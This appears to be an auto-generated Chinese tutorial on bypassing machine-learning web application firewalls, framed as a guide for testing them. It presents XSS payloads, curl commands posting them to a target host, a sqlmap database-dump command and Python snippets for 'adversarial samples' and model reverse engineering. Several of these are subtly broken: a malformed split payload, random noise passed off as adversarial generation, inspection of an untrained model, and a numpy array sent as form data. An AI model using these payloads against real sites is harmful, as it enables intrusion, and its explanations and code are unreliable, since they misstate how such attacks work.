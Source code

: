 # 智能WAF规则引擎的攻击技术

## 1. 技术原理解析

### 1.1 智能WAF规则引擎概述
智能Web应用防火墙（WAF）规则引擎是一种基于机器学习和行为分析的动态防御系统，旨在检测和阻止针对Web应用的攻击。与传统WAF相比，智能WAF规则引擎能够自适应地学习和调整规则，以应对不断变化的攻击手法。

### 1.2 底层实现机制
智能WAF规则引擎通常包含以下核心组件：
- **特征提取模块**：从HTTP请求中提取关键特征，如URL、参数、头信息等。
- **机器学习模型**：基于历史数据训练的分类器，用于识别恶意请求。
- **规则生成模块**：根据机器学习模型的输出，动态生成或调整WAF规则。
- **执行引擎**：应用生成的规则，对请求进行实时检测和拦截。

### 1.3 攻击原理
攻击智能WAF规则引擎的核心在于绕过其检测机制。常见方法包括：
- **特征混淆**：通过修改请求特征，使其与正常请求相似，从而绕过检测。
- **模型欺骗**：利用机器学习模型的弱点，构造特定输入使其误判。
- **规则绕过**：通过构造特殊请求，绕过动态生成的规则。

## 2. 常见攻击手法和利用方式

### 2.1 特征混淆攻击
#### 2.1.1 URL编码混淆
通过URL编码混淆攻击字符串，使其在特征提取阶段被误认为是正常请求。
```bash
# 原始攻击字符串
<script>alert(1)</script>

# URL编码混淆
%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

#### 2.1.2 参数分割
将攻击字符串分割成多个参数，使其在特征提取阶段被误认为是正常请求。
```bash
# 原始攻击字符串
<script>alert(1)</script>

# 参数分割
<script>alert(1</script>&param2=>)
```

### 2.2 模型欺骗攻击
#### 2.2.1 对抗样本生成
通过生成对抗样本，使机器学习模型误判为正常请求。
```python
import numpy as np
from sklearn.ensemble import RandomForestClassifier

# 假设已有训练好的模型
model = RandomForestClassifier()

# 生成对抗样本
def generate_adversarial_sample(model, normal_sample):
    perturbation = np.random.normal(0, 0.1, normal_sample.shape)
    adversarial_sample = normal_sample + perturbation
    return adversarial_sample

# 示例
normal_sample = np.array([0.1, 0.2, 0.3])
adversarial_sample = generate_adversarial_sample(model, normal_sample)
```

#### 2.2.2 模型逆向工程
通过分析模型的输入输出，逆向工程出模型的决策边界，从而构造绕过样本。
```python
from sklearn.tree import export_text

# 导出模型决策树
tree_rules = export_text(model.estimators_[0], feature_names=['feature1', 'feature2', 'feature3'])
print(tree_rules)
```

### 2.3 规则绕过攻击
#### 2.3.1 规则覆盖
通过构造特殊请求，覆盖或绕过动态生成的规则。
```bash
# 原始攻击字符串
<script>alert(1)</script>

# 规则覆盖
<script>alert(1)</script>&param2=<script>alert(2)</script>
```

#### 2.3.2 规则延迟
通过延迟发送攻击请求，使其在规则生成和执行的间隙中被绕过。
```bash
# 延迟发送攻击请求
sleep 5; curl -X POST http://target.com -d "param1=<script>alert(1)</script>"
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
#### 3.1.1 安装智能WAF
选择一款开源的智能WAF，如ModSecurity with ML插件，进行安装和配置。
```bash
# 安装ModSecurity
sudo apt-get install libapache2-mod-security2

# 配置ModSecurity
sudo cp /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
sudo nano /etc/modsecurity/modsecurity.conf
```

#### 3.1.2 训练机器学习模型
使用历史日志数据训练机器学习模型，并将其集成到WAF中。
```python
from sklearn.ensemble import RandomForestClassifier
import pandas as pd

# 加载历史日志数据
data = pd.read_csv('web_logs.csv')

# 训练模型
model = RandomForestClassifier()
model.fit(data.drop('label', axis=1), data['label'])

# 保存模型
import joblib
joblib.dump(model, 'waf_model.pkl')
```

### 3.2 攻击步骤
#### 3.2.1 特征混淆攻击
1. 构造URL编码混淆的攻击请求。
2. 发送请求，观察是否被WAF拦截。
```bash
curl -X POST http://target.com -d "param1=%3Cscript%3Ealert%281%29%3C%2Fscript%3E"
```

#### 3.2.2 模型欺骗攻击
1. 生成对抗样本。
2. 发送对抗样本请求，观察是否被WAF拦截。
```python
adversarial_sample = generate_adversarial_sample(model, normal_sample)
requests.post('http://target.com', data={'param1': adversarial_sample})
```

#### 3.2.3 规则绕过攻击
1. 构造规则覆盖或延迟发送的攻击请求。
2. 发送请求，观察是否被WAF拦截。
```bash
sleep 5; curl -X POST http://target.com -d "param1=<script>alert(1)</script>"
```

## 4. 实际命令、代码或工具使用说明

### 4.1 工具使用
#### 4.1.1 Burp Suite
使用Burp Suite进行请求修改和重放，测试WAF的检测能力。
```bash
# 启动Burp Suite
java -jar burpsuite.jar
```

#### 4.1.2 SQLMap
使用SQLMap进行SQL注入测试，观察WAF的拦截效果。
```bash
# 运行SQLMap
sqlmap -u http://target.com?id=1 --dbs
```

### 4.2 代码示例
#### 4.2.1 对抗样本生成
```python
import numpy as np

def generate_adversarial_sample(model, normal_sample):
    perturbation = np.random.normal(0, 0.1, normal_sample.shape)
    adversarial_sample = normal_sample + perturbation
    return adversarial_sample
```

#### 4.2.2 模型逆向工程
```python
from sklearn.tree import export_text

def export_tree_rules(model):
    tree_rules = export_text(model.estimators_[0], feature_names=['feature1', 'feature2', 'feature3'])
    return tree_rules
```

## 结论
智能WAF规则引擎虽然提供了强大的动态防御能力，但仍存在多种攻击手法可以绕过其检测机制。通过深入理解其底层实现机制，并结合实际攻击步骤和工具使用，可以有效测试和评估智能WAF的安全性。

---

*文档生成时间: 2025-03-17 13:10:02*
